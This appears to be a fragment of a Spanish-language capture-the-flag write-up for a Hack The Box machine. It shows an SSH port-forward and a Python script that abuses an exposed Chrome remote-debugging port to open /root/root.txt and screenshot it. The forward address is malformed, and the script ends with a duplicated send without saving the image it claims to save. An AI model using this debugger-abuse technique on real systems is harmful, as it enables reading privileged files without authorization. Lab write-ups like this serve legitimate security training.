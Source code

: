 ```
❯ ssh morty-magicgardens.htb -L 34965:127.0.0..1:34965
```

Este script se conecta a un navegador con depuración remota habilitada, abre el archivo /root/root.txt en una nueva pestaña, toma una captura de pantalla de su contenido y la guarda como root.png. Utiliza WebSocket para comunicarse con el navegador y ejecutar los comandos necesarios.



```
import json
import requests
import websocket
import base64

debugger_address = 'http://localhost:34965' # Change port

response = requests.get(f'{debugger_address}/json')
tabs = response.json()

web_socket_debugger_url = tabs[0]['webSocketDebuggerUrl'].replace('127.0.0.1', 'localhost')

print(f'Connect to url: {web_socket_debugger_url}')

ws = websocket.create_connection(web_socket_debugger_url, suppress_origin=True)

command = json.dumps({
            "id": 5,
            "method": "Target.createTarget",
            "params": {
                "url": "file:///root/root.txt"
            }
})

ws.send(command)
target_id = json.loads(ws.recv())['result']['targetId']
print(f'Target id: {target_id}')

command = json.dumps({
                "id": 5,
                "method": "Target.attachToTarget",
                "params": {
                    "targetId": target_id,
                    "flatten": True
                }})

ws.send(command)
session_id = json.loads(ws.recv())['params']['sessionId']
print(f'Session id: {session_id}')

command = json.dumps({
            "id": 5,
            "sessionId": session_id,
            "method": "Page.captureScreenshot",
            "params": {
                "sessionId": session_id,
                "format": "png"
            }
        })

ws.send(command)
result = json.loads(ws.recv())

ws.send(command)
result = json.loads(ws.recv())
```